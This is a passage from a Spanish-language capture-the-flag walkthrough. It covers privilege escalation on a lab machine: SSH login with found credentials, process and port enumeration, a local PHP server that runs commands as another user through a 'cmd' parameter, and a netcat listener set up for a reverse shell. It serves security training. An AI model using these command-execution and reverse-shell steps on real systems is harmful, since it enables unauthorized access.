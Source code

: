 Encontramos el usuario `jehad` con el password `fool`.

## 4. Escalar privilegios

Nos conectamos por ssh a la máquina víctima

```bash
ssh jehad@192.168.184.131
```
Introducimos la credencial  `fool`.

Comando útiles a usar:
- El comando `ls -la` en sistemas basados en Unix (Linux, macOS, etc.) muestra una lista detallada de los archivos y directorios en el directorio actual, incluyendo los archivos ocultos.
- El comando pwd significa print working directory ("imprimir directorio de trabajo") y se utiliza para mostrar la ruta absoluta del directorio en el que estás trabajando actualmente.
- El comando `netstat -nat` se utiliza en sistemas Unix/Linux para mostrar información detallada sobre las conexiones de red activas y puertos en uso, filtrando específicamente las conexiones TCP.

Vemos que el puerto `9999` está abierto.

El comando `ps -faux` en sistemas Linux muestra una lista detallada de los procesos en ejecución, con información ampliada y organizada en un formato jerárquico para que sea fácil identificar qué procesos están relacionados entre sí. 

Filtramos por el puerto 9999 `| grep 9999`:

```bash
/bin/sh -c  cd /opt/web && php -S localhost:9999
```

Está cambiando al directorio `/opt/web` e inicia un servidor web local con PHP escuchando en `localhost:9999` (El usuario losy).

En la ubicación `/opt/web` encontramos un index.php con un código que responde como losy a solicitudes `cmd`.

Probamos

```bash
$ curl "http://localhost:9999/execute.php?cmd=whoami"
Parameter GET['cmd']losy
```

Al existir un puerto abierto localmente que no podemos acceder externamente.

(Se podría usar la herramienta [chisel](https://github.com/jpillora/chisel)).

Para ello, nos ponemos en escucha en el puerto 443:

```bash
$ nc -lvvp 443

Comando explicado:
-nc: Llama a la herramienta Netcat, conocida como la "navaja suiza" de las conexiones de red.
-l: Escucha conexiones entrantes (modo listener).
-v: Modo verbose (muestra información detallada sobre la conexión).
-v (repetido): Aumenta el nivel de detalle de la salida.
-p 443: Especifica el puerto en el que escuchar (en este caso, 443).
```
